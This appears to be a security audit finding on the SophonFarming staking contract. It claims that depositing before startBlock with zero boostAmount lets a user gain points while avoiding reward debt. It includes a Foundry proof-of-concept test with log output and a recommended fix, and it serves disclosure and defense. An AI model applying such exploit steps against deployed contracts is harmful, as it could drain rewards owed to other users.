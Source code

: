 Square Azure Porpoise

medium

# The farming contract accpets deposits before startBlock & allows to set 0 boostAmount while depositing, so any user can avoid rewardDebt and gain adequate points according to his deposit

## Summary
The `SophonFarming::_deposit()` allows any user to deposit before startBlock & set boostAmount to 0, so the user can deposit before the startBlock and withdraw all of his deposit after any block of startBlock, by doing this he will get his points & completely bypass his rewardDebt.
## Vulnerability Detail
Assume, current block is 1 & startBlock is 2, an user wanna deposit 1_000_000e18 amount of sDAI. He deposited that before the startBlock.
Now in `_deposit()`, `updatePool()` is called to get updated `accPointsPerShare` & `lastRewardBlock`. As the user called the `_deposit()` before startBlock the `updatePool()` will not do anything but simply return because of this condition:
```solidity
if (getBlockNumber() <= pool.lastRewardBlock) { 
            return;
        }
```
Now, in `_deposit()`, `user.rewardSettled` will be 0 because as the user did not deposit anything before so `user.amount` is 0, the `pool.accPointsPerShare` will also be 0. `user.rewardSettled` & `user.rewardDebt` will also be 0 because of same reason i.e no previous deposit. Then at last of the `_deposit()` the `user.rewardDebt` will be updated again, here again it will be 0 because `pool.accPointsPerShare` is 0. 

At this point:
pool.amount = 1_000_000e18
user.amount = 1_000_000e18

At block 3 the user called `SophonFarming::withdraw()` to withdraw all of his deposit. In this function, when `updatePool()` is called it will update the `pool.accPointsPerShare` to a value & `lastRewardBlock` to current block i.e 3. Now here, `user.rewardSettled` will have a value because both `user.amount` & `pool.accPointsPerShare` has some value. Here, the user had his boostAmount 0 while depositing, for that reason `user.depositAmount` & `user.amount` is same. So, the depositAmount is deducted from the `user.amount` and sent to the user:
```solidity
@> SophonFarming::withdraw()
// codes
userAmount = userAmount - _withdrawAmount;
  //codes     
 pool.lpToken.safeTransfer(msg.sender, _withdrawAmount);
//codes
```
At this point `user.amount` is 0. Now at the end of `withdraw()` when rewardDebt is updated the user.amount is multiplied by accPointsPerShare, but as user.amount is 0 rewardDebt will be 0. 
Now, the user staying in the protocol with points and 0 reward debt.

### PoC
Paste this test in SophonFarming.t.sol & run:
```solidity
        function test_depositBeforeStartBlock() public {
            vm.roll(0);            // @audit setting block.number before startBlock
            assertEq(block.number, 0);
            assertEq(sophonFarming.startBlock() - 1, block.number);   // @note startBlock == 1 
            SophonFarmingState.UserInfo memory userInfo;
            uint256 daiPID = sophonFarming.typeToId(SophonFarmingState.PredefinedPool.sDAI);
            deal(address(sDAI), account1, 1_000_000_0000e18);
            vm.startPrank(account1);
            sDAI.approve(address(sophonFarming), 1_000_000_0000e18);
            sophonFarming.deposit(daiPID, 1_000_000_000e18, 0);
            vm.stopPrank();
            SophonFarmingState.PoolInfo[] memory pools = sophonFarming.getPoolInfo();
            console.log("pool.amount: ", pools[daiPID].amount);
            (userInfo.amount, userInfo.boostAmount, userInfo.depositAmount, userInfo.rewardSettled, userInfo.rewardDebt) =
            sophonFarming.userInfo(daiPID, account1);
            console.log("user.amount: ", userInfo.amount);
            console.log("user.depositAmount: ", userInfo.depositAmount);
            assertEq(userInfo.rewardSettled, 0);
            assertEq(pools[daiPID].accPointsPerShare, 0);
            vm.roll(2);     // @audit now we are in block 2, 
            console.log("-------------------------------");
            console.log("---- AFTER CHANGING BLOCK ----");
            console.log("-------------------------------");
            vm.prank(account1);
            sophonFarming.withdraw(daiPID, userInfo.depositAmount);
            SophonFarmingState.PoolInfo[] memory pools2 = sophonFarming.getPoolInfo();
            console.log("pool.amount: ", pools2[daiPID].amount);
            (userInfo.amount, userInfo.boostAmount, userInfo.depositAmount, userInfo.rewardSettled, userInfo.rewardDebt) =
            sophonFarming.userInfo(daiPID, account1);
            console.log("user.amount: ", userInfo.amount);
            console.log("user.rewardSettled: ", userInfo.rewardSettled);
            console.log("user.rewardDebt: ", userInfo.rewardDebt);
        }
```
Result:
```solidity
Logs:
  pool.amount:  1000000000000000000000000000
  user.amount:  1000000000000000000000000000
  user.depositAmount:  1000000000000000000000000000
  -------------------------------
  ---- AFTER CHANGING BLOCK ----
  -------------------------------
  pool.amount:  0
  user.amount:  0
  user.rewardSettled:  8333333333000000000
  user.rewardDebt:  0
```
> For this attack the accPointsPerShare must be 0 at the deposit time otherwise rewardDebt will be updated to a value at the end of the depsoit() and when he will withdraw the rewardDebt will be deducted, as accPointsPerShare can only change from 0 when block number increases & pool.amount != 0 so the attacker need to deposit in pool at first. In PoC i shown the deposit before startBlock i.e just after deploying the contract because this is the best time when the user will get 0 pool.amount & the protocol is allowing to deposit before startBlock.

## Impact
User will avoid rewardDebt.
## Code Snippet
1. https://github.com/sherlock-audit/2024-05-sophon/blob/main/farming-contracts/contracts/farm/SophonFarming.sol#L574
## Tool used

Manual Review, Foundry

## Recommendation
Don't allow 0 boostAmount while depositing. 
